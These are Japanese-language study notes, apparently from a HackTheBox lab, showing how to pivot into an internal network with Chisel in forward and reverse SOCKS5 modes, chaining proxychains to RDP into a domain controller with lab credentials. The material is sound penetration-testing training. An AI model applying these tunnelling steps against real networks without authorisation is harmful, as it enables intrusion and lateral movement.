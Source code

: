 ピボットホストでChiselサーバーを実行する
```shell-session
ubuntu@WEB01:~$ ./chisel server -v -p 1234 --socks5
```

もし、Chisel クライアント側で **エラーが出る場合、異なるバージョンを試す**
```sh
wget https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz
gunzip chisel_1.7.7_linux_amd64.gz
mv chisel_1.7.7_linux_amd64 chisel
```

攻撃ホストからChiselサーバーへの接続
```shell
snowyowl644@htb[/htb]$ ./chisel client -v 10.129.202.64:1234 socks
```

`/etc/proxychains.conf`にあるproxychains.confファイルを変更し、最後に`1080`ポートを追加して、1080ポートとSSHトンネルの間で作成されたトンネルを使用してプロキシチェーンをピボットできる
- 以下を末尾に追加する
```sh
socks5 127.0.0.1 1080
```

chiselでのピボットホストを介して、内部ネットワーク上のDCに接続できる
```shell
snowyowl644@htb[/htb]$ proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```

## Chisel を使ったリバースピボット（Reverse Pivoting）
- 実際の環境では、ファイアウォールのルールによって、ターゲット（侵害したマシン）への「外部からの接続（インバウンド接続）」が制限されるケースがある
- このような場合、Chisel の “リバースオプション” を利用することで、攻撃ホスト側に接続を張ることが可能になる

**Chisel の “リバース” モード**
- `--reverse` オプションを有効にすると、Chisel サーバー（攻撃ホスト側）が接続を受け付け、トラフィックをクライアント（ピボットホスト）経由で中継できるようになる
	- リモート指定（`--remote`）の前に **R を付ける** ことで、リバーストンネルを作成できます。
	- 例えば、`R:socks` を指定すると、クライアント側で SOCKS5 プロキシをセットアップし、攻撃ホストから内部ネットワークにトンネル接続が可能になる

- 通常モード（デフォルト）
	- Chisel クライアント（侵害したマシン）がサーバー（攻撃ホスト）に接続する
-  リバースモード（--reverse）
	- Chisel サーバー（攻撃ホスト）がリスニングし、クライアントがトラフィックを転送する

攻撃ホストで Chisel サーバーを起動
- まず、攻撃ホスト（10.10.14.17）で Chisel サーバーをリバースモードで起動する
	- ここで `--socks5`オプションを付けているので、リバーストンネル経由で SOCKS5 プロキシをセットアップできる
```sh
sudo ./chisel server --reverse -v -p 1234 --socks5
```

Ubuntu（ピボットホスト）から攻撃ホストに接続
- ピボットホスト上で、Chisel クライアントを起動し、攻撃ホストに接続
```sh
./chisel client -v 10.10.14.17:1234 R:socks
```

この状態で、攻撃ホスト側に SOCKS5 プロキシ が作成された！
